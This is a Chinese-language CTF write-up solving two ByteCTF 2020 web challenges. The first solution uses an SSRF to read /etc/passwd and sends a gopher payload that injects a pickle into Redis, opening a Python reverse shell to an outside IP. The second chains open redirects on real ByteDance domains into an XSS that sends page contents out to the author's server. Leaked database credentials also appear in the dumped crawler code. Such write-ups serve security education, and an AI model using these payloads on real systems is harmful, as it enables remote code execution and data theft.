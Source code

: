 categories:
- 比赛
tags:
- web
- ctf
- wp
title:  2020ByteCTF
---
# ByteCTF2020

## web

### easy_scrapy

体验一编网站的功能后，发现如下api

```
/list
/push post:url=https%3A%2F%2Fwww.4399.com&code=16674458
/result?url=https://www.4399.com
```

让网站爬取自己的服务器以获得请求头

```
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en
User-Agent: scrapy_redis
Accept-Encoding: gzip, deflate
Host: ccreater.top:60000


```

通过ua头发现是：scrapy_redis

本地搭建scrapy_redis服务爬取网站，查看redis里设置的键值，发现myscrapy:requests中

![image528](https://raw.githubusercontent.com/Explorersss/photo/master/20201026113031.png)



存在的pickle数据

网站自然提交http和https协议的url，但是因为是爬虫猜测嵌入一个a标签就可以绕过这个限制

提交如下网站

```
<a href="file:///etc/passwd">
```



成功读取到/etc/passwd，把爬虫代码爬下来本地测试

scrapy.cfg

```python
# Automatically created by: scrapy startproject
#
# For more information about the [deploy] section see:
# https://scrapyd.readthedocs.io/en/latest/deploy.html

[settings]
default = bytectf.settings

[deploy]
#url = http://localhost:6800/
project = bytectf
```

bytectf/settings.py

```python
BOT_NAME = 'bytectf'
SPIDER_MODULES = ['bytectf.spiders']
NEWSPIDER_MODULE = 'bytectf.spiders'
RETRY_ENABLED = False
ROBOTSTXT_OBEY = False
DOWNLOAD_TIMEOUT = 8
USER_AGENT = 'scrapy_redis'
SCHEDULER = "scrapy_redis.scheduler.Scheduler"
DUPEFILTER_CLASS = "scrapy_redis.dupefilter.RFPDupeFilter"
REDIS_HOST = '172.20.0.7'
REDIS_PORT = 6379
ITEM_PIPELINES = {
   'bytectf.pipelines.BytectfPipeline': 300,
}
```

bytectf/byte.py

```python
import scrapy
import re
import base64
from scrapy_redis.spiders import RedisSpider
from bytectf.items import BytectfItem

class ByteSpider(RedisSpider):
    name = 'byte'

    def parse(self, response):
        byte_item = BytectfItem()
        byte_item['byte_start'] = response.request.url#ä¸»é®ï¼åå§url
        url_list = []
        test = response.xpath('//a/@href').getall()
        for i in test:
            if i[0] == '/':
                url = response.request.url + i
            else:
                url = i
            if re.search(r'://',url):
                r = scrapy.Request(url,callback=self.parse2,dont_filter=True)
                r.meta['item'] = byte_item
                yield r
                url_list.append(url)
                if(len(url_list)>3):
                    break
        byte_item['byte_url'] = response.request.url
        byte_item['byte_text'] = base64.b64encode((response.text).encode('utf-8'))
        yield byte_item

    def parse2(self,response):
        item = response.meta['item']
        item['byte_url'] = response.request.url
        item['byte_text'] = base64.b64encode((response.text).encode('utf-8'))
        yield item
```

bytectf/items.py

```python
import scrapy


class BytectfItem(scrapy.Item):
    # define the fields for your item here like:
    # name = scrapy.Field()
    byte_start = scrapy.Field()#
    byte_text = scrapy.Field()#text
```

bytectf/pipelines.py

```python
import pymongo

class BytectfPipeline:
    def __init__:
        MONGODB_HOST = '172.20.0.8'
        MONGODB_PORT = 27017
        MONGODB_DBNAME = 'result'
        MONGODB_TABLE = 'result'
        MONGODB_USER = 'N0rth3'
        MONGODB_PASSWD = 'E7B70D0456DAD39E22735E0AC64A69AD'
        mongo_client = pymongo.MongoClient("%s:%d" % (MONGODB_HOST, MONGODB_PORT))
        mongo_client[MONGODB_DBNAME].authenticate(MONGODB_USER, MONGODB_PASSWD, MONGODB_DBNAME)
        mongo_db = mongo_client[MONGODB_DBNAME]
        self.table = mongo_db[MONGODB_TABLE]



    def process_item(self, item, spider):
        quote_info = dict(item)
        print(quote_info)
        self.table.insert(quote_info)
        return item
```

测试`<a href="gopher://.....">`发现并不能解析gopher协议

继续测试发现接口`/result?url=https://www.4399.com`，也存在ssrf漏洞且至此gopher协议

传入以下payload:

```
gopher%3a//172.20.0.7%3a6379/_%250D%250Azadd%2520byte%253Arequests%25201%2520%2522cos%255Cnsystem%255Cn%2528S%2527python%2520-c%2520%255Cx27import%2520socket%252Csubprocess%252Cos%253Bs%253Dsocket.socket%2528socket.AF_INET%252Csocket.SOCK_STREAM%2529%253Bs.connect%2528%2528%255Cx2239.108.164.219%255Cx22%252C60003%2529%2529%253Bos.dup2%2528s.fileno%2528%2529%252C0%2529%253B%2520os.dup2%2528s.fileno%2528%2529%252C1%2529%253B%2520os.dup2%2528s.fileno%2528%2529%252C2%2529%253Bp%253Dsubprocess.call%2528%255B%255Cx22/bin/sh%255Cx22%252C%255Cx22-i%255Cx22%255D%2529%253B%255Cx27%2527%255CntR.%2522%250D%250Aquit%250D%250A
```

成功弹回shell

### douyin_vedio

题目描述

>Do you like douyin video?
>Submit your payload at http://c.bytectf.live:30002/
>
>( Server URLs which only admin can access:
>http://a.bytectf.live:30001/
>http://b.bytectf.live:30001/ )

题目中只能将http://a.bytectf.live:30001/ 开头的url发给管理员，而c.bytectf.live中存在未过滤的xss点

思路就很清晰了，想办法跳转到c.bytectf.live再说，我们查看源代码发现：

```
RewriteRule /favicon.ico$ /favicon.ico [QSA,PT,L]
RewriteRule /$ / [QSA,PT,L]
RewriteRule /search$ /search [QSA,PT,L]
RewriteRule /send$ /send [QSA,PT,L]
RewriteRule /static/(.*)$ /static/$1 [QSA,PT,L]
RewriteRule (.*)$ http://www.douyin.com$1  
```



最后一个神奇的重写规则，所以我们只要在www.douyin.com下找到一个任意url跳转就可以执行c.bytectf.live的xss

通常url跳转常出现在登入登出，还有外站url跳转，顺着这个思路我们可以找到`http://www.douyin.com/logout/?next=https%3A%2F%2Fwww.douyin.com/23333`可以跳转到部分域名(www.douyin.com , creator.douyin.com ...)

这样就扩大了我们的攻击面，继续按照相同的思路进一步扩大攻击面的url:`https://creator.douyin.com/passport/web/logout/?next=https://www.douyin.com`

测试发现可以跳转到任意`douyin.com/bytedance.com/.bytecdn.cn/ixigua.com/bytedance.net/snssdk.com/toutiao.com/huoshan.com/jinritemai.com`结尾的域名

接着用谷歌搜索：`site:xxxxxxx.com 跳转` 发现任意url跳转:`https://tsearch-quic.snssdk.com/search/jump?url=http://ccreater.top:60080`

组合成跳转到c.bytectf.live的url:

```
http://a.bytectf.live:30001/logout?next=https%3a//creator.douyin.com/passport/web/logout/%3fnext%3dhttps://tsearch-quic.snssdk.com/search/jump?url=http://c.bytectf.live:30002/?action=post%25252526id=b44cb32f302e2d4249dea06a2ffa0da1
```

因为安全策略的设置问题(`frame-ancestors http://*.bytectf.live:*/`覆盖了`['X-Frame-Options'] = 'sameorigin'`)，导致我们可以直接作为iframe导入，读取内容

```
	resp.headers['X-Frame-Options'] = 'sameorigin'
    resp.headers['Content-Security-Policy'] = "default-src http://*.bytectf.live:*/ 'unsafe-inline'; frame-src *; frame-ancestors http://*.bytectf.live:*/"
    resp.headers['X-Content-Type-Options'] = 'nosniff'
    resp.headers['Referrer-Policy'] = 'same-origin'
```

所以xss的代码是：

```javascript
document.domain="bytectf.live"; 
flagPage=document.createElement("iframe"); flagPage.src="http://a.bytectf.live:30001/?keyword=B"; document.body.append(flagPage); setTimeout(()=>{ document.location="http://ccreater.top:60001/"+btoa(document.body.getElementsByTagName("iframe")[0].contentWindow.document.body.innerHTML) },500)

```

但是不知道为啥iframe.src=`http://a.bytectf.live:30001/`可以获取到内容，而`http://a.bytectf.live:30001/send`却不可以。。。

监听端口成功拿到flag

